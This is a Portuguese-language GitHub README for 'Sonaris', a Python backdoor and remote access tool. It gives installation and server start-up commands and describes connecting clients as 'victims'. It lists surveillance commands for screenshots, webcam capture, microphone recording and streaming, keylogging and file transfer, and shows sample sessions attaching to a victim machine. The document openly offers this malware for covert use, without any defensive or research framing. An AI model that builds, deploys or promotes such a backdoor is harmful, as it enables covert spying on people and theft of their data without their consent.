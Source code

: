 ![badges](https://img.shields.io/badge/Python-v3.8-red)
<h1 align='center'><i>"Get ready to hack the planet!"</i><img src='./image/logo.png'  height='350'></h1>

## Instalação
Baixe ou clone o repositório usando:
```bash
git clone https://github.com/zNairy/Sonaris
```
Em seguida instale os recursos necessários descritos em <b>requirements</b>, utilizando o pip de acordo com sua versão do Python.
```bash
python -m pip install -r requirements.txt
```
## Como usar
Inicie o lado servidor com <tt>python main.py</tt> para suportar cada vítima que se conectar à ele. Por padrão, tanto o servidor quanto cada cliente é conectado no endereço <tt>0.0.0.0:5000</tt> se nenhum argumento for passado em sua instância.
```python
class Server(object):
    """ server side backdoor """
    def __init__(self, host='0.0.0.0', port=5000):
```
Uma porta ou endereço diferente também podem ser passados por meio de argumentos, somente no lado servidor
```bash
python main.py -a 127.0.0.1 -p 1234
```
O lado cliente deve ser iniciado formalmente e seu endereço e porta são passados diretamente na instância do objeto.
## Funcionalidades
Assim como qualquer outro backdoor, o <i>Sonaris</i> conta com funcionalidades básicas de navegação, gerência das sessões e funcionamento interno do programa. Ao rodar o comando principal <tt>/commands</tt> lhe será mostrado a lista de todos os comandos possíveis.
```txt
  /attach
  /detach
  /sessions
  /sessioninfo
  /userinfo
  /rmsession
  /screenshot
  /webcamshot
  /download
  /upload
  /processlist
  /processinfo
  /terminateprocess
  /micrecord
  /micstream
  /kloggerstart
  /kloggerdump
  /kloggerstop
  /author
  /contact
  /version
  /internalcommands
  /commands
  ```
  Os comandos de gerência interna podem ser visualizados rodando o comando <tt>/internalcommands</tt>.
  ```
  /attach
  /detach
  /sessions
  /sessioninfo
  /userinfo
  /rmsession
  /author
  /contact
  /version
  /internalcommands
  /commands
  ```
  Alguns comandos são executados somente quando há alguma sessão anexada, caso contrário lhe será exibido algum descritivo do comando.
  ```bash
  znairy@sonaris:# /contact
Discord: zNairy#7181 | Github: https://github.com/zNairy/
  znairy@sonaris:# /micstream
Info: Starts a microphone streaming.
```
O backdoor é multi-client, o que significa que você pode ter mais de uma conexão simultânea.
Após receber alguma conexão, verifique se está ativa com o comando <tt>/sessions</tt>.
```bash
[*] Incoming connection from znairy:Linux
znairy@sonaris#:# /sessions
  -znairy
```
Se anexe à sessão da vítima desejada e seja feliz _;)_
```bash
znairy@sonaris:# /attach znairy
 You are attached to a section with znairy now!
znairy@sonaris:/home/znairy/Documents/Github/Sonaris# 
```
## Observações
O projeto ainda não está totalmente concluído, por isso se deseja fazer alguma contribuição ou crítica construtiva, faça um pull request ou entre em contato comigo pelo <a href="https://discord.com/" target="_blank">Discord</a>.
